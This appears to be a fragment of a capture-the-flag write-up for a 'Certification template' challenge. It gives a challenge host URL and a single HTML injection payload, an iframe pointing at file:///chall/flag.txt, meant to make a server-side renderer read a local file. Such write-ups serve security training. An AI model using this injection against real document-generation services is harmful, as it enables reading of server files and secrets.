 # Certification template

http://remote1.thcon.party:10750

```<iframe src="file:///chall/flag.txt"></iframe>```
